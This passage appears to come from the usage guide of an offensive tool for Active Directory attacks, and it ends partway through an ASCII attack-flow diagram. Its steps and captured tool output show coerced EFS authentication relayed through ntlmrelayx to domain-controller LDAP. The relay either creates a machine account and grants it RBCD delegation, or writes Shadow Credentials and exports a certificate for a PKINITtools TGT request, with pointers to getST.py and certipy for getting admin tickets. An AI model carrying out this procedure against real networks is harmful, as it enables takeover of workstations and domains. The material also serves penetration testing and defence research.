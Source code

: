 ```
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```
9. If everything worked correctly, `ntlmrelayx.py` should have caught WebDAV (HTTP) authentication from the coerced authentication attack. In `ntlmrelayx.py`, output indicating successful modification of RBCD permissions or Shadow Credentials should display.

RBCD Method:
```
[*] Servers started, waiting for connections
[*] HTTPD(8888): Connection from 127.0.0.1 controlled, attacking target ldap://dc.borgar.local
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:389  ...  OK
[*] HTTPD(8888): Authenticating against ldap://dc.borgar.local as BORGAR/WS01$ SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=borgar,DC=local
[*] Adding new computer with username: NUUQERGH$ and password: MWw4SBXWXr(hc*n result: OK
[*] Delegation rights modified succesfully!
[*] NUUQERGH$ can now impersonate users on WS01$ via S4U2Proxy
```
Shadow Credentials Method:
```
[*] Servers started, waiting for connections
[*] HTTPD(8888): Connection from 127.0.0.1 controlled, attacking target ldap://dc.borgar.local
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc.borgar.local:389  ...  OK
[*] HTTPD(8888): Authenticating against ldap://dc.borgar.local as BORGAR/WS01$ SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Searching for the target account
[*] Target user found: CN=WS01,CN=Computers,DC=borgar,DC=local
[*] Generating certificate
[*] HTTPD(8888): Connection from 127.0.0.1 controlled, but there are no more targets left!
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3e698916-c5d1-0022-ced9-241b5e4c557e
[*] Updating the msDS-KeyCredentialLink attribute of WS01$
[*] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saved PFX (#PKCS12) certificate & key at path: AdK8BkC5.pfx
[*] Must be used with password: 
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[*] Run the following command to obtain a TGT
[*] python3 PKINITtools/gettgtpkinit.py -cert-pfx AdK8BkC5.pfx -pfx-pass  borgar.local/WS01$ AdK8BkC5.ccache
```
10. After this, an administrative Kerberos TGT can be generated for the victim workstation via `getST.py` for [the RBCD method](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html), or `certipy`+`ticketer.py` for [Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials).

Below is a visual diagram of what the whole attack flow looks like:
```
+------------------------------+        +------------------------------+        +------------------------------+
|    Attacker Machine          |        |      Victim Workstation      |        |     Domain Controller        |
|                              |        |                              |        |                              |
|  +------------------------+  |        |  +------------------------+  |        |  +------------------------+  |
|  |  Messenger Server      |<============>|    Messenger Client    |<============>|      LDAP Server       |  |
|  |  and NTLMRelayX        |  |        |  +------------------------+  |        |  +------------------------+  |
```